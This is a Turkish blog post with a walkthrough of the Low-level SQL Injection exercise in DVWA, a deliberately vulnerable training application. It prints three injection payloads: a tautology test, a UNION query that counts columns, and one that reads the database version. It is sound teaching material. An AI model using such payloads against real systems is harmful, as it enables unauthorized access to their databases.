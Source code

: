 
---
layout: post
title: DVWA-SQL Injection Bölümü Cevapları Level: Low
date: 2015-09-02 16:52
author: ahmetgurel
comments: true
categories: [dvwa, dvwa cevapları, dvwa solutions, dvwa sql injection, dvwa sql injection cevapları, dvwa sql injection level low, dvwa sql injection solutions, kali linux dvwa, kaliye dvwa kurulumu, linux yaz kampı, Siber Güvenlik, Web Uygulama Güvenliği]
---

Yazıma başlamadan önce yeniden hatırlatmamda fayda var bu yaz Linux Yaz Kampında <a href="https://www.mehmetince.net/lyk-2015-web-uygulama-guvenligi-ve-guvenli-kod-gelistirme-kursu/"> Web Uygulama Güvenliği ve Güvenli Kod Geliştirme</a> kursuna katıldım.Orada öğrendiğim şeylerin bazılarını blogumdan paylaşmaya çalışıyorum.Başta <a href="https://twitter.com/mdisec">Mehmet İnce</a> ve <a href="https://twitter.com/Barknkilic">Barkın Kılıç</a> olmak üzere emeği geçen tüm hocalarımıza yeniden teşekkür ederim.Daha önceki yazımda DVWA nedir ve nasıl kurulur anlatmıştım.Bu yazımda ise DVWA ın SQL Injection bölümünün Low leveline ait  kendi cevaplarımı  buradan paylaşacağım.Bir önceki yazıya <a href="http://www.gurelahmet.com/dvwa-nedir-ve-linuxakali-kurulumu/"> buradan</a> ulaşıp DVWA sistemini kurabilirsiniz.

Cevaplara geçmeden önce levelinizin LOW olduğundan emin olunuz.

<strong>SQL Injection Tespiti</strong>

İlk olarak

[php] 1' or '1'='1 [/php]

denemesi ile SQL Injection tespiti yapıyoruz ve sorguların tek tırnak ile olduğunu

görüyoruz.

<a href="http://www.gurelahmet.com/wp-content/uploads/2015/09/1.png"><img class="alignnone size-full wp-image-491" src="http://www.gurelahmet.com/wp-content/uploads/2015/09/1.png" alt="1" width="1011" height="709" /></a>

<strong>Veritabanındaki Kolon Sayısının Tespiti</strong>

[php] 1' UNION SELECT 1,2 # [/php]

sorgusu ile veritabanında iki kolon olduğunu gördük.

&nbsp;

<a href="http://www.gurelahmet.com/wp-content/uploads/2015/09/2.png"><img class="alignnone size-full wp-image-499" src="http://www.gurelahmet.com/wp-content/uploads/2015/09/2.png" alt="2" width="729" height="561" /></a>

&nbsp;

<strong>Veritabanının Versiyon Bilgisi</strong>

[php]1' UNION SELECT version(),2 # [/php]

sorgusu ilede versiyon bilgisini elde edebiliriz.

&nbsp;

<a href="http://www.gurelahmet.com/wp-content/uploads/2015/09/3.png"><img class="alignnone size-full wp-image-500" src="http://www.gurelahmet.com/wp-content/uploads/2015/09/3.png" alt="3" width="721" height="555" /></a>
